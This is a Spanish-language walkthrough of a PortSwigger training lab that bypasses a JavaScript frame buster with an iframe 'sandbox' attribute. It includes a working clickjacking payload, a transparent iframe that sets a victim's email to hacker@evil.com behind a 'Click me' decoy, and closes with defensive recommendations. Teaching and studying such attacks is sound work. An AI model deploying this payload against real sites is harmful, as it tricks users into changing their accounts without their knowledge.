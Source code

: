 # Lab: Clickjacking with a frame buster script

This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address?

To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.

You can log in to your own account using the following credentials: `wiener:peter`

`Note`: The victim will be using Chrome so test your exploit on that browser.  
`Hint`: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con un blog público:
![image](https://github.com/user-attachments/assets/5c74e9ae-8167-4a37-936a-f722cfad0fed)

## 🎯 Objetivo del laboratorio

El objetivo de este laboratorio es realizar un ataque de **Clickjacking** a una aplicación protegida por un **frame buster**. Específicamente, se debe:

- **Engañar al usuario para que cambie su dirección de correo electrónico** a una controlada por el atacante, sin que el usuario lo note.
- **Eludir la protección de frame busting** utilizando técnicas que permitan embeber la página objetivo en un `<iframe>`.
- Crear una **página maliciosa** en el servidor de exploits que simule un botón atractivo (como "Click me") superpuesto al botón real de "Update email" en la página víctima.

💡 El laboratorio se resuelve cuando la dirección de correo electrónico del usuario víctima ha sido cambiada con éxito.

---

Procedemos a autenticarnos con nuestras credenciales `wiener:peter` para inspeccionar la funcionalidad de cambio de correo:
![image](https://github.com/user-attachments/assets/eaefa3dc-9224-418a-a3bc-d6f06520eb40)

Código fuente:
![image](https://github.com/user-attachments/assets/be6cb75e-cd93-4151-8ecd-d849d158ab37)

Observamos el frame buster:
```javascript
if (top != self) {
    window.addEventListener("DOMContentLoaded", function() {
        document.body.innerHTML = 'This page cannot be framed';
    }, false);
}

/*
📌 Explicación detallada:

1. `if (top != self)`:
   - Esta línea verifica si la página actual está siendo cargada **dentro de un frame**.
   - `top` representa el contexto de la ventana principal (el tope del stack de ventanas).
   - `self` representa el contexto del frame actual.
   - Si no son iguales, significa que la página está embebida en un `<iframe>`.

2. `window.addEventListener("DOMContentLoaded", function() { ... })`:
   - Este evento espera a que el contenido HTML de la página se haya cargado completamente, sin esperar imágenes, hojas de estilo, etc.
   - Una vez que se dispara, ejecuta la función definida.

3. `document.body.innerHTML = 'This page cannot be framed';`:
   - Esta línea reemplaza **todo el contenido del body** por un simple texto: `'This page cannot be framed'`.
   - Esto rompe el contenido original, impidiendo al atacante interactuar con los elementos legítimos (como formularios o botones).
*/

```
Objetivo del script:
- Impedir que la página se renderice correctamente si es embebida por un atacante dentro de un iframe.

Cómo lo evitamos:
- Si el `<iframe>` incluye el atributo `sandbox="allow-forms"`, la página embebida **no puede acceder a `top`**, y por lo tanto la condición `top != self` **no puede evaluarse correctamente**.
- Esto neutraliza el frame buster y permite mostrar el contenido sin activar el reemplazo.


Sabemos que se puede prellenar el valor del parámetro `email` tramitándolo por GET:
![image](https://github.com/user-attachments/assets/ea697154-6728-495b-b6a7-3fa0d3a5cad1)


Al igual que en el laboratorio anterior, accedemos al exploit server y procedemos a crean nuestra página maliciosa utilizando nuestro script:
```javascript
<style>
    iframe {
        position: relative;
        width: 500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 385px;
        left: 80px;
        z-index: 1;
        background: #fff;
        padding: 10px;
        font-weight: bold;
        cursor: pointer;
    }
</style>

<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://0a4a006b0369302b806dd0ee00910067.web-security-academy.net/my-account?email=hacker@evil.com"></iframe>
```

Hacemos click en `Store` y luego en `View exploit`:
![image](https://github.com/user-attachments/assets/f29ed268-3e30-4360-98d6-5de2afa2b9cc)

Lo primero a resaltar es que no se activa el Frame Buster, no se activa el mensaje "This page cannot be framed”.

El paso siguiente sería bajar un poco más el texto `Click me` para hacerlo coincidir con el botón `Update email`:
```javascript
<style>
    iframe {
        position: relative;
        width: 500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 440px;
        left: 70px;
        z-index: 1;
        background: #fff;
        padding: 10px;
        font-weight: bold;
        cursor: pointer;
    }
</style>

<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://0a4a006b0369302b806dd0ee00910067.web-security-academy.net/my-account?email=hacker@evil.com"></iframe>
```

![image](https://github.com/user-attachments/assets/98c13fd5-1e2a-47d7-a432-bbc0a84da673)

El siguiente paso es bajarle la opacidad:
```javascript
<style>
    iframe {
        position: relative;
        width: 500px;
        height: 700px;
        opacity: 0.000001;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 440px;
        left: 70px;
        z-index: 1;
        background: #fff;
        padding: 10px;
        font-weight: bold;
        cursor: pointer;
    }
</style>

<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://0a4a006b0369302b806dd0ee00910067.web-security-academy.net/my-account?email=hacker@evil.com"></iframe>
```
![image](https://github.com/user-attachments/assets/683016b4-3991-4c79-a90a-fc8f74279392)

Con este valor de opacidad logramos que el iframe sea imperceptible, el siguiente paso es nuevamente hacer clic en `Store` y luego clic en `Deliver exploit to victim` para resolver el laboratorio:  

![image](https://github.com/user-attachments/assets/63ae0333-dff8-4d95-9861-9c3043ef304c)


---

## ✅ Conclusiones

- Se logró ejecutar un ataque de Clickjacking a pesar de que la aplicación estaba protegida con un frame buster basado en JavaScript.
- El uso del atributo `sandbox="allow-forms"` en el iframe demostró ser efectivo para neutralizar el acceso al objeto `top`, evitando así la ejecución del script de defensa.
- La opacidad y el posicionamiento preciso fueron claves para engañar al usuario y superponer correctamente el botón malicioso.

---

## 🔐 Recomendaciones

- Implementar el header HTTP `Content-Security-Policy: frame-ancestors 'none';` o `X-Frame-Options: DENY` para prevenir cualquier intento de embebido, incluso en navegadores modernos.
- Evitar confiar únicamente en soluciones JavaScript para prevenir Clickjacking, ya que pueden ser fácilmente evadidas en contextos restringidos como iframes con sandbox.
- Considerar la validación de acciones sensibles (como cambiar un correo) con mecanismos adicionales como doble confirmación o reautenticación.

---

## 📚 Lecciones aprendidas

- Las protecciones del lado del cliente son fácilmente evadibles si no están reforzadas por mecanismos del lado del servidor.
- HTML y CSS pueden ser utilizados para construir ataques engañosos muy efectivos cuando se combinan con vulnerabilidades de diseño lógico.
- Conocer el comportamiento de los atributos de seguridad como `sandbox` permite evadir controles implementados de forma incompleta o incorrecta.
- La alineación visual y la manipulación del DOM son técnicas comunes en ataques de Clickjacking y deben ser tenidas en cuenta en cualquier análisis de seguridad front-end.





